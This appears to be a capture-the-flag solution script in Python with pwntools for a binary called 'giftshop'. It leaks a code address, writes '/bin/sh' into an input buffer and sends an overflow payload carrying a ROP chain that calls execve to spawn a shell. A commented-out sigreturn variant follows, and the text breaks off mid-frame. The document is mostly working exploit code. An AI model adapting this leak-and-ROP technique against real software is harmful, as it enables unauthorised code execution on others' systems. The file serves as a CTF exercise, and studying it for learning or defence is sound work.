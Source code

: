 # Solve.py

```python
#!/usr/bin/python
from pwn import *

def order(data):
	r.sendlineafter('Your choice:\n', '1')
	r.sendlineafter("receiver's name ? y/n\n", 'n')
	r.sendlineafter('\n\n', '1')
	r.sendlineafter('DONE !!\n', '6')
	r.sendlineafter('Do you want to ship it ? y/n\n', data)

r = process('./giftshop')
r = remote('localhost',12346)
context.log_level = 'debug'


r.recvuntil('you come here !\n')
leak = int(r.recvline()[:-1],16)
success('leaked_addr = '+hex(leak))
CODE_BASE = leak-0x2030d8 
log.info('CODE_BASE = '+hex(CODE_BASE))

#gdb.attach(r, 'b* 0x{:x}'.format(CODE_BASE+0x0000019BC))

r.sendlineafter('Can you give me your name plzz ??\n', 'Q'+'\x00'+'/bin/sh') # 0x2031e0
r.sendlineafter("Enter the receiver's name plzz: \n", 'Q'+'\x00'+'/proc/self/mem') # 0x203120

'''
0x000000000000225f : pop rdi ; ret
0x0000000000002261 : pop rsi ; ret
0x0000000000002265 : pop rdx ; ret
0x0000000000002267 : pop rax ; ret
0x0000000000002251 : inc rax ; syscall ; ret
0x0000000000002254 : syscall ; ret
'''


payload = 'y'+'\x00'*(0x60-1)
payload += 'A'*8		# rbp

#### call sys_execve 32bit #### => OK!
payload += p64(CODE_BASE + 0x225f) # pop rdi; ret;
payload += p64(CODE_BASE + 0x2031e0 + 2) # 0
payload += p64(CODE_BASE + 0x2261) # pop rsi; ret;
payload += p64(0) # 
payload += p64(CODE_BASE + 0x2265) # pop rdx; ret;
payload += p64(0) # 0
payload += p64(CODE_BASE + 0x2267) # pop rax; ret;
payload += p64(0x40000000 + 59) # sys_execve 32bit
payload += p64(CODE_BASE + 0x2254) # syscall



#### stub_execvat (set argv with sigreturn) ### => OK!
# payload += p64(CODE_BASE + 0x2267) # pop rax; ret;
# payload += p64(0xf)
# payload += p64(CODE_BASE + 0x2254) # syscall
#
# frame = SigreturnFrame(arch='amd64')
# frame.rax = 322
# frame.rdi = 0
```